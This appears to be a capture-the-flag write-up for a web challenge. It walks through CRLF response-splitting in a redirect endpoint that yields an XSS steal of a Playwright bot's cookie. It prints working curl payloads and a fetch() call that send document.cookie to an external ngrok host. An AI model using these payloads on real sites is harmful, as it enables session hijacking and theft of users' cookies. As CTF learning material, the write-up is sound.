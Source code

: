 # Custom HTTP Server (day8)

<p align="justify">In this web challenge the goal was to attack a javascript website and retreive the flag. No informations were given about the way to process nor the location of the flag, but application source code was provided (attached to this repo). </p>

<p align="center"><img src="Screenshots/S1.png" alt="Desc" style="width:40%"></p>

<p align="justify">After a few read of the source code I spoted the snippet below giving me informations about the way I could have retreived the flag :</p>

````javascript
const cookie = {
        name: 'FLAG',
        value: 'RM{REDACTED}',
        domain: '127.0.0.1',
        path: '/',
        httpOnly: false,
        secure: false,
      };
````

<p align="justify">Indeed the flag was actually javascript bot's cookie (playright) set on the local domain. As a matter of fact; the website offered a report method (in the file app.js : /api/report) in which it was possible to send an url to the bot, so that it could have checked it and as result being trapped. Hence to solve this challenge I had to find a way to exfiltrate the cookie through XSS attack.  The schema of the challenge had been the following one : </p>

- First, I had to find a way to steal my own cookie , craft a valid payload
- Then I had to adjust payload for firefox browser especially, because playright bot works over firefox
- Finally I had to submit the payload on the report api so that the bot could have been trapped and sent its cookies

<p align="justify">At first I thought I had to bypass filter applied to XSS API as shown in the code snippet below. But after a few tries I gave up because of the sanitizer which was too restrictive (the filter is availabe under sanitizer.js in the source code zip) :</p>

````javascript
router.get('/api/xss', async (req, res) => {
  try {
      const { html } = req.query;
      const sanitized = Sanitizer.xss(html);
      res.html(sanitized);
  } catch (err) {
      res.badRequest();
  }
});
````

<p align="justify">I finally spoted the redirect feature below, in which user input wasn't cleared nor processed; meaning it could have been exploited for injection and eventualy cross site scripting payload injection. Which looked interesting at this point : </p>

````javascript
router.get('/api/redirect', (req, res) => {
  const { url } = req.query;
  if (url) {
    res.redirect(url);
  } else {
    res.badRequest();
  }
});
````

<p align="justify">In this route, the user input was used to set the Location header for redirecting properly. Because of the lack of filters/CSP on the user input, it was possible possible to inject the parameter to send the bot onto an external website. That's what I tried; I deployed a server and made the bot fetching it. It came useless because cookie's bot was defined on 127.0.0.1 meaning the bot was fetching my server with document.cookie variable empty. After a few read, I came up with the idea of using \n\r chars to overwritte redirect page thanks to this insightful article about http response splitting <a href="https://blog.detectify.com/industry-insights/http-response-splitting-exploitations-and-mitigations/">doc</a>. On burp browser (chrome based) the exploit worked well and I was able to steel my own cookies with the following payload : </p>

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=%0D%0AContent-Type%3A%20text%2Fhtml%20%0A%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
Actually, \r\n chars triggered a 302 page meaning that page had been found on the server and well overwritten. At this point it was satisfying insofar as the payload was ran on the target domain: 

<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

<p align="justify"> Nonetheless when I tested the payload on firefox, it only triggered a redirect loop leading to abortion by firefox itself after too many redirections. After searching for known bypass I found (thanks Vic_V2 !) this documenation <a href="https://www.gremwell.com/firefox-xss-302">doc</a>, in which the loop redirect issue had been solved using websocket in Location headers. Hence, I adjusted my payload but faced a last obstacle , the CORS headers. To solve this problem, I added the following parameters for fetching my external server and to get around CORS restrictions: </p>

````javascript
fetch('http://7.tcp.eu.ngrok.io:18440/',
        {
                methode: 'POST',
                mode: 'no-cors',
                body: document.cookie
        }
)
````

Finally I came up with the final paylaod below :

````bash
curl -G "http://dyn-01.xmas.root-me.org:24694/api/report" --data-urlencode "url=http://127.0.0.1:3000/api/redirect?url=ws://google.com%0D%0AContent-Type%3A%20text%2Fhtml%20%0D%0A%0D%0A%3Chtml%3E%3Cscript%3Efetch%28%27http%3A%2F%2F7.tcp.eu.ngrok.io%3A18440%2F%27%2C%20%7Bmethode%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20document.cookie%7D%29%3C%2Fscript%3E%3C%2Fhtml%3E%0A%0A"
````
After opening a listening port, I finally received the flag : 

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Flag : _RM{Damnn_Chrome_And_Firefox_4re_S0_different}_ , thanks _Elweth_ for this challenge and a massive thanks to _Vic_V2_ for helping me out troubleshooting !

